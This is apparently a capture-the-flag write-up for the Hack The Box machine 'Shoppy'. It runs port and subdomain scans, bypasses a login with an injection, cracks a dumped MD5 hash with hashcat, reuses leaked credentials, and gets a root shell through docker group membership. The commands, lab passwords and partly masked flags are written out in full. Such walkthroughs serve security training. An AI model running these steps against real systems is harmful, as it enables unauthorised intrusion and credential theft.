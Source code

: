 # Shoppy
https://app.hackthebox.com/machines/Shoppy

## Port scan

### Tool used: nmap
<br>

```
nmap -p- shoppy.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-17 11:24 CST
Nmap scan report for shoppy.htb (10.10.11.180)
Host is up (0.060s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 40.15 seconds
```

First, we take a look at the website:<br><br>

![web](./docs/shoppy/shoppy_01_web.png)

Nothing exciting here, so we run *gobuster* to look for subdirectories and subdomains on the host:<br><br>

```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================

[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s

===============================================================
2022/11/17 11:27:34 Starting gobuster in directory enumeration mode
===============================================================

/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/17 12:20:52 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/17 12:22:40 Finished
===============================================================
```

The "/login" page presents us with a (as you probably guessed) login prompt:<br><br>

![login](./docs/shoppy/shoppy_02_login.png)

This login prompt was easily bypassed using some simple SQL logic:<br><br>

![bypass](./docs/shoppy/shoppy_03_bypass.png)

Once in, there was nothing exciting. However, there was an option to search for users. Using the same logic for bypassing the login, we are able to export some credentials in JSON format:<br><br>

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Throwing the MD5 hash for "josh" into *hashcat* produced an almost immediate result:<br><br>

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
Time.Started.....: Thu Nov 17 12:17:19 2022 (0 secs)
Time.Estimated...: Thu Nov 17 12:17:19 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2818.1 kH/s (0.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 815127/14344385 (5.68%)
Rejected.........: 23/815127 (0.00%)
Restore.Point....: 811031/14344385 (5.65%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: reyna! -> ramon51

Started: Thu Nov 17 12:17:02 2022
Stopped: Thu Nov 17 12:17:21 2022
```

Now, we are able to login to "mattermost.shoppy.htb" using the credentials for "josh". After poking around the site, we found a "Deploy Machine" page which displayed a chat conversation between 2 users. In this conversation were some credentials for the machine:<br><br>

![deploy](./docs/shoppy/shoppy_05_deploy.png)

We were able to login with "jaeger" and obtain the users flag:

**user.txt**

```
e517df9f************************
```

Next, we see what kind of privileges we have:<br><br>

```
sudo -l

[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Running *password-manager* (using "sudo -u deploy /home/deploy/password-manager") asks for a master password. Using *cat*, we can find the necessary strings in the program to give us a hint:<br><br>

```
cat password-manager

Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```

Using the discovered password with "password-manager" resulted in some more credentials:<br><br>

```
sudo -u deploy /home/deploy/password-manager

Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

From here, we switch to the "deploy" user and execute LinEnum. It shows that *docker* is running, and we are a member of the "docker" group:<br><br>

![docker](./docs/shoppy/shoppy_06_docker.png)

A quick look at GTFOBins (https://gtfobins.github.io/gtfobins/docker/) shows that we can get a root shell with *docker*:<br><br>

```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id

uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

From here, we can capture the root flag:

**root.txt**

```
9e4d1c81************************
```